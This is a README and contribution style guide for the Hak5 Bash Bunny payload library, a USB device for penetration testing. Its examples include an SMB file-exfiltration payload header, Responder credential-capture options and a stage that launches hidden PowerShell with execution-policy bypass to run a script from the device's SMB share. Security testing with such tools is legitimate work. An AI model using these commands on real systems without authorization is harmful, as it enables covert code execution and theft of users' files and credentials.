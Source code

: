 # Payload Library for the Bash Bunny by Hak5

This repository contains payloads and extensions for the Hak5 Bash Bunny. Community developed payloads are listed and developers are encouraged to create pull requests to make changes to or submit new payloads.

## About the Bash Bunny

By emulating combinations of trusted USB devices — like gigabit Ethernet, serial, flash storage and keyboards — the Bash Bunny tricks computers into divulging data, exfiltrating documents, installing backdoors and many more exploits.
-   [Purchase at Hak5](https://hak5.org/products/bash-bunny "Purchase at Hak5")
-   [Documentation](https://hak5.org/products/bash-bunny "Documentation")
-   [Bash Bunny Forums](https://forums.hak5.org/forum/92-bash-bunny/ "Forums")
-   Discord:  [https://hak5.org/discord](https://hak5.org/discord)

![enter image description here](https://cdn.shopify.com/s/files/1/0068/2142/products/bash-bunny-mk2_001_c58d9658-b151-4328-af26-11eef3c47355_300x.jpg)

## Documentation
Documentation on developing payloads for the Bash Bunny can be found on the [docs.hak5.org](https://docs.hak5.org/bash-bunny/) website. Guides can be found on the [Bash Bunny blog](https://hak5.org/blogs/bash-bunny).

## Disclaimer
Generally, payloads may execute commands on your device. As such, it is possible for a payload to damage your device. Payloads from this repository are provided AS-IS without warranty. While Hak5 makes a best effort to review payloads, there are no guarantees as to their effectiveness. As with any script, you are advised to proceed with caution.

## Legal
Payloads from this repository are provided for educational purposes only.  Hak5 gear is intended for authorized auditing and security analysis purposes only where permitted subject to local and international laws where applicable. Users are solely responsible for compliance with all laws of their locality. Hak5 LLC and affiliates claim no responsibility for unauthorized or unlawful use.

## Contributing
Once you have developed your payload, you are encouraged to contribute to this repository by submitting a Pull Request. Reviewed and Approved pull requests will add your payload to this repository, where they may be publically available.

Please adhere to the following best practices and style guide when submitting a payload.

### Naming Conventions
Please give your payload a unique and descriptive name. Do not use spaces in payload names. Each payload should be submit into its own directory, with `-` or `_` used in place of spaces, to one of the categories such as exfiltration, phishing, remote_access or recon. Do not create your own category.

### Binaries
Binaries may not be accepted in this repository. If a binary is used in conjunction with the payload, please document where it or its source may be obtained.

### Comments
Payloads should begin with comments specifying at the very least the name of the payload and author. Additional information such as a brief description, the target, any dependencies / prerequisites and the LED status used is helpful.

    Title: SMB Exfiltrator
    Description: Exfiltrates files from %userprofile%\documents via SMB
    Author: Hak5Darren
    Target: Windows XP SP3 - Latest
    Dependencies: impacket
   
### Configuration Options
Configurable options should be specified in variables at the top of the payload.txt file

    # Options
    RESPONDER_OPTIONS="-w -r -d -P"
    LOOTDIR=/root/udisk/loot/quickcreds

### LED
The payload should use common payload states rather than unique color/pattern combinations when possible with an LED command preceding the Stage or ATTACKMODE.

    # Initialization
    LED SETUP
    GET SWITCH_POSITION
    GET HOST_IP
    
    # Attack
    LED ATTACK
    ATTACKMODE HID ECM_ETHERNET

### Stages and States
Stages should be documented with comments

    # Keystroke Injection Stage
    # Runs hidden powershell which executes \\172.16.64.1\s\s.ps1 when available
    GET HOST_IP
    LED STAGE1
    ATTACKMODE HID
    RUN WIN "powershell -WindowStyle Hidden -Exec Bypass \"while (\$true) { If (Test-Connection $HOST_IP -count 1) { \\\\$HOST_IP\\s\\s.ps1; exit } }\""

Common payload states include a `SETUP`, with may include a `FAIL` if certain conditions are not met. This is typically followed by either a single `ATTACK` or multiple `STAGEs`. More complex payloads may include a `SPECIAL` function to wait until certain conditions are met. Payloads commonly end with a `CLEANUP` phase, such as moving and deleting files or stopping services. A payload may `FINISH` when the objective is complete and the device is safe to eject or turn off. These common payload states correspond to `LED` states.


